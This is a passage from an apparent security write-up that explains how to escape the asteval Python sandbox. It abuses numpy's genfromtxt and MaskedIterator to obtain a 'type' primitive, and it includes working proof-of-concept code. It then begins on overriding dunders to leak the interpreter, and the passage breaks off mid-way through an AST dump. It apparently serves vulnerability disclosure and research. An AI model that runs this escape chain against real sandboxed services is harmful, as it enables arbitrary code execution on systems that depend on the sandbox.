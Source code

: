 Note that `self.dataiter` and `self.ma` are user-controlled. Thus, if we can make it so that the `.view` method of the object returned by the `__getitem__` call on `self.dataiter` either returns its argument, or e.g. adds its argument to some global list, this allows us to access the result of `type`. This would give us a useable `type` primitive.

At this point we need to figure out how to get a `MaskedIterator` instance from `genfromtxt`.

In the `numpy` code there is only one place where a `MaskedIterator` instance is created, in `MaskedArray.flat`.

If we look at the function definition of `genfromtxt`, we see the `usemask` argument. Alternatively we can search for useages of `MaskedArray` and end up at this argument.

Putting this into practice:
```python
# Get `type` primitive
def id(x):
    return x

genfromtxt.view = id
ma = genfromtxt(["1"], usemask=True)
mf = ma.flat
mf.maskiter = None
mf.ma = "foo"
mf.dataiter = [genfromtxt]
str = mf[0]
# Now str is the type `str`

mf.ma = str
t = mf[0]
# Now t is the type `type`
```

Having a type primitive, some of the logical next steps to look are instances of `asteval` classes that are available from within the sandbox, such as `Procedure`. User-defined functions within the sandbox are turned into `Procedure` objects in `asteval`.

In `asteval`, the sandbox is interpreted by having the source code parsed into an ast using `ast.parse` and then having evaluating this ast using a node visitor pattern, with functions for nodes to implement the effects that executing that node should have, with an attempt at filters on what effects to allow.

### Overriding class level dunders to leak the interpreter object:

One of the main restrictions in `asteval` is the one preventing us from getting arbitrary attributes. In traditional pyjails it is common to traverse attributes of objects to eventually end up at powerful objects, which is why `asteval` forbids some of these.
Let's see how attributes are parsed via `ast`:
```python
>>> print(ast.dump(ast.parse("a.a"), indent=" "))
Module(
   body=[
      Expr(
         value=Attribute(
            value=Name(id='a', ctx=Load()),
            attr='a',
            ctx=Load()))],
   type_ignores=[])
>>> print(ast.dump(ast.parse("a.a = 0"), indent="   "))
Module(
   body=[
      Assign(
         targets=[
            Attribute(
               value=Name(id='a', ctx=Load()),
               attr='a',
```